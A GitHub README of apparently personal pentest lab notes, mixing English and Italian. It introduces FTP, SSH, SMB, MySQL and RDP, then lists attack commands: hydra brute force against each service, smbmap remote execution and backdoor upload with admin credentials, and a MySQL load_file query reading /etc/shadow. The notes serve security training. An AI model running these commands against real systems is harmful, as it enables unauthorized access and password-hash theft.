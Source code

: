 # Protocols-FTP-21-SSH-22-SMB-139-445-MySQL-3306-and-RDP-3389-
Let's see the protocols: FTP(21), SSH(22), SMB(139-445), MySQL(3306) and RDP(3389)



# Introduction of protocols
## File Transfer Protocol
FTP (21): File Transfer Protocol is a standard network protocol for transferring files between a client and a server over a TCP/IP network. FTP uses port 21 for control messages and port 20 for data transfer.

## Secure Shell
SSH (22): Secure Shell is a cryptographic network protocol for secure remote login and other network services over an unsecured network. SSH uses port 22 by default, but it can be changed to any port.

## Server Message Block
SMB (139-445): Server Message Block is a network protocol for sharing files, printers, and other resources on a local area network. SMB uses port 139 for NetBIOS session service and port 445 for direct TCP/IP connection.

## MySQL
MySQL (3306): MySQL is an open-source relational database management system that uses Structured Query Language (SQL) to manipulate and query data. MySQL uses port 3306 by default, but it can be configured to use any port.

## Remote Desktop Protocol
RDP (3389): Remote Desktop Protocol is a proprietary network protocol that allows a user to remotely access another computer through a graphical user interface. RDP uses port 3389 by default, but it can be modified to use any port. <br>

For the enumeration part of these protocols, I direct you to my nmap github repository. **https://github.com/SavioFengGit/Nmap-Active-Information-Gathering/edit/main/README.md**

## My usefull list of command
### SMB 445
 - smbmap -u guest -p "" -d . -H 10.0.28.123 (tool di enumerazione, discover all shared folders and drives, vedi i permessi di guest su ogni folder, in questo caso è l'utente di default 
  senza password)
 - smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig' (esegue il comando)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L (lista tutti i drive)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$' (List contents of the directory of C:\ drive)
 - touch backdoor
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor'  (carichi un file)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$' (verifica se il file è stato inserito)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' (scarichi il flag)
 - smbmap -H 192.212.251.3 -u admin -p password1  (trovate le credenziali puoi usarle per vedere gli shares che sono solo di lettura o altro)
 - smbclient -L 192.126.66.3 -N (tool per l'accesso, vede se è permesso la connessione anonima "nullsession", Anonymous connection is allowed since shares are displayed without 
  requirement of password)
 - smbclient //192.144.106.3/public -N (su public)
 - smbclient //192.212.251.3/jane -U jane (vedi se esiste lo share di jane, potrebbe esistere, ma non è visualizzabile)
 - hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.212.251.3 smb  (brute force per SMB)

### FTP 21
 - ftp 192.235.127.3 21 (puoi provare anonymous/anonymous per vedere se accetta la connessione anonima)
 - hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.235.127.3 ftp  (brute force con ftp per le credenziali)

### SSH 22
 - ssh root@192.201.39.3 (login con root)
 - hydra -l student -P /usr/share/wordlists/rockyou.txt 192.40.231.3 ssh (attacco a dizionario sull'utente student)
 - hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.235.127.3 ssh(brute force con ftp per le credenziali)

### MySQL 3306
 - mysql -h 192.71.145.3 -u root (logghi nel db come root)
 - show databases; (mostra i db)
 - use books; (vai sul db books)
  select count(*) from authors; (fai una query)
  select load_file("/etc/shadow");  (query dove prendi l'hash della password di root)
 - hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.149.194.3 mysql (attacco a dizionario su mysql per l'utente root)

### RDP 3389
 - hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333 (esegue un brute force su rdp)
 - xfreerdp /u:administrator /p:qwertyuiop /v:10.0.0.31:3333  (esegue la connessione con le credenziali)



